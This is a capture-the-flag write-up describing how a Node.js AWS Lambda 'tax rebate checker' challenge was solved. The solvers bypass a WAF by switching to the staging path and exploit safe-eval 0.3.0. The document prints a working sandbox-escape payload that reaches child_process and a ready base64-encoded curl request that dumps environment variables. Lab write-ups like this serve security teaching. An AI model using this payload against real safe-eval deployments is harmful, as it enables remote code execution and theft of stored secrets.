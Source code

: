 # Hold the line! Perimeter defences doing it's work!
**2000 Points // 2 Solves**

Apparently, the lead engineer left the company ("Safe Online Technologies"). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle `c0v1d-agent-1`. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!  
[Tax rebate checker](http://z8ggp.tax-rebate-checker.cf/)

## Finding the Exploit
This time, the frontend was hosted on Google Cloud Platform:

```
$ curl -v http://z8ggp.tax-rebate-checker.cf/
...
< HTTP/1.1 200 OK
< X-GUploader-UploadID: ABg5-UwbFLtFsPubVCx8sxKMuCR8qsX1ZzoCw8DiaG34sDXnnUs7YZ7T2c-MbLkoUOUn-ztbbri2R6ZYZ8zX_eL1hzc
< x-goog-generation: 1606418262624802
< x-goog-metageneration: 1
< x-goog-stored-content-encoding: identity
< x-goog-stored-content-length: 774
< x-goog-hash: crc32c=mMvjHQ==
< x-goog-hash: md5=wVoFqiGGeVXoDandOpY2SA==
< x-goog-storage-class: STANDARD
< Server: UploadServer
...
```

However, the backend (presumably what we needed to hack) was hosted on AWS, behind [AWS API Gateway](https://aws.amazon.com/api-gateway/), and presumably using [AWS Lambda](https://aws.amazon.com/lambda/) as the backend. We knew this because the API sent a POST request to https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker, the endpoint for API Gateway, and Lambda was often used with API Gateway.

Next, some OSINT skills werre needed to find the repository hosting the source code: https://github.com/c0v1d-agent-1/tax-rebate-checker.

As we knew that there was a "vulnerable code segment", we suspected that there were vulnerable dependencies. This was shown in the GitHub issue, where `c0v1d-agent-1` said that:

> One of the libraries used by the function was vulnerable. Resolved by attaching a WAF to the `prod` deployment. WAF will not to be attached `staging` deployment there is no real impact.

As the application was running on Node.js, we can find the dependencies in `package.json`:

```json
{
  "name": "pension-shecker-lambda",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "safe-eval": "^0.3.0"
  }
}
```

Sure enough, `safe-eval 0.3.0` has a [critical vulnerability](https://github.com/hacksparrow/safe-eval/issues/5) to be exploited. To bypass the WAF (web application firewall), we just need to swtich from `prod` to `staging` in the URL: https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker. _(easiest WAF bypass on earth: done)_

Now, it's time to exploit the vulnerability and use web skills. The [vulnerable line](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js#L13) uses:

```js
safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
```

i.e. we need to put our payload in `body.age`, then comment the rest of the string (quite similar to SQL injection, actually). Our payload would look like this:

```js
{
    "age": new Buffer(`<PAYLOAD>//`, "ascii").toString("base64"),
    "salary": "any value will do here since it's commented either way"
}
```

_note that doing this the other way round (payload in salary) does not work syntactically. either a leading "+" will be present, or the eval will return the value of the sum instead_

An example payload was found [here](https://snyk.io/vuln/SNYK-JS-SAFEEVAL-608076), but it did not work for AWS's newer version of Node.js (later emperically determined to be Node.js 12.19.0 with `node --version`). We dug a bit deeper in the GitHub issues and found an [updated payload to use](https://github.com/hacksparrow/safe-eval/issues/18#issuecomment-592644871). We would just need to replace `whoami` with our preferred shell command to run arbitrary commands.

## Finding the flag
_([skip to solution](#solution))_

Now we're in the Lambda function, RCE in hand. However, no hints were given about where the flag was located.

First we suspected that the file might have been part of the Lambda deployment package. We knew that Lambda only allows [functions to write to `/tmp` (during execution)](https://forums.aws.amazon.com/thread.jspa?threadID=174119), and [Lambda Layers are written to `/opt`](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html). When `ls` on these two directories did not succeed, we tried a recursive `ls` on the `/`, but quickly hit the [default execution time limit of 3s](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-limits.html).

Next, we tried to use SSRF to use the [metadata service](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/) available on AWS. (to be written)

### Solution
Finally, we realized that we forgot the existence of environment variables, where Lambda functions commonly store secrets and configuration data:

![Environment variables used in Lambda](env.png)

In order to print this out, we decided to use the `printenv` command. Our payload was:

```js
(function() {
    delete this.constructor;
    const HostObject = this.constructor;
    const HostFunction = HostObject.is.constructor;
    const process = HostFunction('return process')();
    return process.mainModule.require('child_process').execSync("printenv").toString();
})()//
```

which led to the `curl` command:

```
$ curl https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -H 'Content-Type: application/json' --data '{"salary":"","age":"KGZ1bmN0aW9uKCl7ZGVsZXRlIHRoaXMuY29uc3RydWN0b3I7Y29uc3QgSG9zdE9iamVjdCA9IHRoaXMuY29uc3RydWN0b3I7Y29uc3QgSG9zdEZ1bmN0aW9uID0gSG9zdE9iamVjdC5pcy5jb25zdHJ1Y3Rvcjtjb25zdCBwcm9jZXNzID0gSG9zdEZ1bmN0aW9uKCdyZXR1cm4gcHJvY2VzcycpKCk7cmV0dXJuIHByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoInByaW50ZW52IikudG9TdHJpbmcoKTt9KSgpLy8="}'
```

after removing whitespace from the payload. The environment variables were returned as follows:

```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
flag=3nv_L0oK$-G$$D!
...
```

## Flag
```
govtech-csg{3nv_L0oK$-G$$D!}
```